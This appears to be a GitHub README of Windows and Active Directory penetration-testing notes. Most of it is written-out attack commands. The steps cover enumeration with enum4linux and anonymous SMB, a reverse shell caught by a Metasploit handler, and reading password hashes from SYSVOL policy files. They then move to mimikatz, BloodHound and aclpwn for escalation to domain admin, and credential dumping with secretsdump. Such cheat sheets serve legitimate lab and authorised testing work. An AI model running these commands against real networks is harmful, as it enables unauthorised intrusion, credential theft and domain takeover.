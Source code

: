 # WINDOWS Pen Testing scripts and tutorials

## Recon

Enum4Linux will get you Domains, Workgroups, Usernames, etc.
```bash
enum4linux -a [-u USER -p PASS] IP
```

## WinRM 

### File transfer

For the winrm service use winrm/wirnmcp.rb to upload and download files

```bash
ruby winrm/winrmcp.rb IP USER PASSWORD -u LOCAL_FILES+ REMOTE_FOLDER
```

```bash
ruby ./winrm/winrm.rb IP USER PASSWORD -d REMOTE_FILES+ LOCAL_FOLDER
```

### Shell

use evil-winrm for a shell. 

If something wont work execute 

```bash
bash ./msf/create-reverse-shell.sh LOCAL_IP LOCAL_PORT 
```

and execute it on the remote server

while having the following session open at metasploit

```msf
msfconsole

use exploit/multi/handler
set LPORT LOCAL_PORT
set LHOST LOCAL_IP
exploit -j -z 
```

if the meterpreter session is opened in the msfconsole:

```
sessions -i 0
```

to get to the first created session


## SAMBA

```bash
smbclient -L //IP/ 
```

just hit enter for anonymous access. 
You could also try to access it anonymously with

```bash
smbclient //IP/SHARE 
```

Sometimes you can access the SYSVOL share, if it is not cleaned up it may contain some xml files in the Policy folder which contains password hashes


## Kerberos

Checkout Impacket scripts

if you have access rights on the machine you also can use mimikatz. 
Upload it and try it out. 


## BloodHound & aclpwn

Using BloodHound you can generate a path from owned principals to admin domains

1. Upload SharpHound.ps1
2. Exec PS `C:\..\ Import-Module .\SharpHound.ps1`
3. Exec PS `C:\..\ Invoke-BloodHound -CollectionMethod All -DomainController DC -LdapUser USER -LdapPass PASSWORD -IgnoreLdapCert`
4. Download XYZ-BloodHound.zip
5. start neo4j `neo4j console &`
6. start BH `bloodhound`
7. upload zip file
8. use aclpwn `aclpwn -f USER -ft User -t ADMIN_DOMAIN -d DOMAIN -du neo4j -dp neo4jpass -s IP -u USER -p PASSWORD`
9. if successfull you can now use Impackets secretdump.py 'secretsdump.py DOMAIN/USER:PASSWORD@IP'
9.1 or use mimikatz 
